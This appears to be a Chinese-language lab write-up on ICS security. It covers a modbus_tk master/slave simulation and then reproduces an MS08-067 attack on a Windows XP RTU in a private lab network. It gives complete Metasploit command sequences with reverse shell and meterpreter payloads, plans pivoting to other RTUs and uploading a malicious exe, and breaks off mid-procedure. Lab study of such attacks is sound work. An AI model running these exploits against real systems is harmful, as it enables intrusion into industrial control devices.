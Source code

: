 先运行slave：`python tcpslave_example.py`

输入`set_values 1 0 1 2 3 6 12`，表示slave号为1，块序号为0，起始寄存器为1，连续向下写入2,3,6,12

运行master：`python tcpmaster_example.py`，输出正确的寄存器值

![](202204/pic/modbus_tk模拟m-s.png)

#### 3.熟悉使用metasploit,复现论文中的攻击，尽量使用MS08-netapi ,payload可以任选

- 先ms08入侵一个可以访问的网络中的RTU，以它作为pivot来入侵无法访问的网络
- 利用该RTU攻击其他RTU，并通过meterpreter channel通道传exe给其他RTU
- 执行exe

##### （1）Kali使用ms08远程攻击一个RTU1

要求：RTU1同时属于两个网段（有两张网卡）

MS08-067是一种windows远程执行代码漏洞，攻击者可以远程完全控制受影响的系统（win2000,2003,xp）。ms08_067_net api是Metasploit的一个模块

靶机：Windows XP SP3 Chinese - Simplified (NX) `IP: 192.168.10.135`

```sh
net stop sharedaccess # 关闭防火墙
```

攻击机：Kali Linux `IP: 192.168.10.131`

```sh
msfconsole
nmap --script=vuln 192.168.10.135 # 扫描漏洞

use exploit/windows/smb/ms08_067_netapi # 使用模块
show targets # 查看能攻击的系统
set target 34 # 操作系统版本为简中xp3
set payload generic/shell_reverse_tcp
show options # 查看需要填写的内容
set RHOST 192.168.10.135
set RPORT 445
exploit
```

建立会话

![shell_reverse_tcp攻击](202204/pic/shell_reverse_tcp攻击.png)

##### （2）Kali通过Meterpreter上传恶意软件exe到RTU1

Meterpreter是一种payload，exploit后会出现meterpreter交互式shell

```sh
use exploit/windows/smb/ms08_067_netapi
set target 34
set payload windows/meterpreter/reverse_tcp
set RHOSTS 192.168.10.135
exploit
```
